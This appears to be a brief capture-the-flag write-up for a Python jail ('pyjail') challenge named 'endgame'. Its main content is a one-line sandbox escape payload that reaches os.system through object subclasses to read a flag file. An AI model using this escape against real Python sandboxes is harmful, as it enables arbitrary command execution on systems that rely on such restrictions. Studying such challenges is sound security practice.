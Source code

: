 Title: endgame

Description:
```
Crack the last one in pyjail series! Author : Claire de lune
```

Refer to the first [challenge](https://github.com/Coder-Here/ShaktiCTF/blob/main/Misc/level0/README.md), the payload works from there.

```
print([].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt'))
```

Flag: 
